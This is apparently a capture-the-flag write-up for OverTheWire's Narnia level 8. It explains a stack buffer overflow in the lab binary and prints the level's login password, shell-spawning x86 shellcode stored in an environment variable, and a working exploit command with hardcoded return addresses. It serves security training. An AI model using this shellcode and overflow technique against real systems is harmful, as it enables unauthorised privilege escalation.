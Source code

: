 # Level 8
ssh narnia8@narnia.labs.overthewire.org -p 2226  
Pass: 1aBcDgPttG  
An initial run of the binary shows the following:  
<img width="418" alt="Screen Shot 2024-04-01 at 7 09 15 PM" src="https://github.com/tylerdionne/OverTheWire-Narnia-Write-ups/assets/143131384/91b5823e-0c3d-4dc9-9024-3188504b3ea4">  

In the C source file we see that the program takes a command line argument and then passes it to func.  
We see that we are basically copying the character array we pass into the program into "bok" until it hits a null byte. We see that "bok" is allocated 20 bytes.  It is clear that there is a buffer overflow vulnerability because the string we input does not have to stop at 20 bytes but after that "bok" will be full and we will start overwriting the address of argv[1] and it wont be pointing to our payload anymore. Almost acts like a canary.  

So basically we want to 1. overwrite bok with 20 junk bytes 2. preserve address of argv[1] 3. 4 junk bytes for ebp 5. addr of a enviornment variable we control   

Make a file /tmp/getenvvaraddr.c in the tmp directory to find the address of the enviornment variable we are going to make:
<img width="609" alt="Screen Shot 2024-04-01 at 8 27 27 PM" src="https://github.com/tylerdionne/OverTheWire-Narnia-Write-ups/assets/143131384/dbf7d601-e9bb-4fdb-b24a-dbd32493cbf5">  

Now make an enviornment variable with the shellcode we used from the previous challenges stored in it:
export LVL8="$(perl -e 'print"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')"  

Now compile the c file we made and run it with the name of this enviornment variable.  
$ gcc -m32 getenvvaraddr.c -o getenvvaraddr  
$ ./getenvvaraddr LVL8  
This gives us the following output:  
addr of LVL8: 0xffffdfa5  

Go into gdb, disassemble func(), set a break point right before exit, run with 20 A's as arg, display 20 values below $esp, get the address after the last 0x41414141 string for me it is (0xffffd790). In our actual payload we will be writing 12 more bytes so we need to subtract 12 from this (0xffffd78c).

./narnia8 $(perl -e 'print "AAAAAAAAAAAAAAAAAAAA" . "\x8c\xd7\xff\xff" . "AAAA" . "\xa5\xdf\xff\xff"')  


